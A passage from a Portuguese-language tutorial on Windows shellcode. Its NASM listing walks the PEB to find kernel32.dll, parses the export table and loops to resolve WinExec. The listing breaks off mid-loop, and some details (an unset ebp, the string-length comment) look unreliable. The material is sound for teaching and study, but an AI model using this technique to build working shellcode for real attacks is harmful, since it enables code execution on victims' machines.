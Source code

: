 E é exatamente por este motivo que a `EXPORT Ordinal Table` começa em `004` e não em `001`, portanto nosso contador precisa de um ajuste.

Para corrigir o problema usaremos o mesmo *loop* do programa, e uma vez que a *string* for encontrada em `EXPORT Ordinal Table`, simplesmente corrigiremos adicionando 1 ou 2 inteiros, no nosso caso será 1. Então o código completo fica:

```nasm
global _start

section .text

_start:

    xor eax, eax            ;zerando o registrador
    mov eax, [fs:0x30]      ;movendo o offset da PEB de fs (File Segment) para eax
    mov eax, [eax + 0x0c]   ;movendo o offset da LDR (PEB + 0x00c) para eax
    mov eax, [eax + 0x14]   ;movendo o offset da InMemoryOrderModuleList (LDR + 0x014) para eax
    mov eax, [eax]          ;carregando o endereço efetivo do primeiro modulo - o executavel em si
    mov eax, [eax]          ;carregando o endereço efetivo do segundo modulo - ntdll.dll
    mov eax, [eax + 0x10]   ;carregando o endereço base do terceiro modulo - kernel32.dll

    ;enviando nome da função para stack
    xor edx, edx                ;zerando o registrador
    push 0x4e636578             ;movendo Ncex para stack
    sub word [esp + 0x3], 0x4e  ;removendo o "N"
    push 0x456e6957             ;movendo EniW para stack
    ;encontrando o endereço da Export Table e armazenando em edx
    mov edx, [eax + 0x3c]       ;conteudo de 0x3c é f8 e foi movido para edx
    add edx, eax                ;adicionado o endereço base da kernel32 a f8, edx = 0x757000f8
    mov edx, [edx + 0x78]       ;adicionado 0x78 (170 - f8) para obter o RVA de Image Export Directory, edx = 0x93df0
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Image Export Directory, edx = 0x75793df0
    ;encontrando o endereço da Export Name Pointer table e armazenando em ecx
    mov ecx, [edx + 0x20]       ;adicionadno 0x20 a 0x75793df0 para obter o RVA da Export Name Pointer Table, ecx = 0x957c4
    add ecx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Name Pointer Table, ecx = 0x757957c4
    mov [ebp-4], ecx            ;movendo o endereço base de Export Name Pointer Table para a variavel [ebp-4]
    ;encontrando o endereço de Export Address table e armazenando em edx
    mov edx, [edx + 0x1c]       ;adicionando 0x1c a 0x75793df0 para obter o RVA da Export Address Table, edx = 0x93e18
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Address Table, edx = 0x75793e18

;encontrando o endereço da WinExec na kernel32.dll com loop
        xor ebx, ebx                    ;zerando o registrador para uso no loop
findproc:

    xor ecx, ecx            ;zerando o registrador para ser usado em comparações de string
    mov esi, esp            ;movendo WinExec da stack para esi
    mov edi, [ebp-4]        ;movendo o endereço base da Export Name Pointer Table para edi, edi = 0x757957c4
    mov edi, [edi + ebx*4]  ;endereço base da Export Name Pointer Table + valor ordinal * 4, edi = RVA do função buscada pelo nome
    add edi, eax            ;adicionando o endereço base da kernel32 ao RVA da função
    add cx, 4               ;movendo o comprimento da string WinExec para cx: WinExec = 7 bytes = 4 WORD
    repe cmpsw              ;compara o numero de WORDS no registrador cx da esquerda para direita com edi e esi, armazena a saída na flag ZF
    jz findaddr             ;pula para findaddr e quebra o loop se a flag ZE for TRUE
    inc ebx                 ;incrementa o contador que contém o ordinal
    loop findproc           ;loop no findproc
```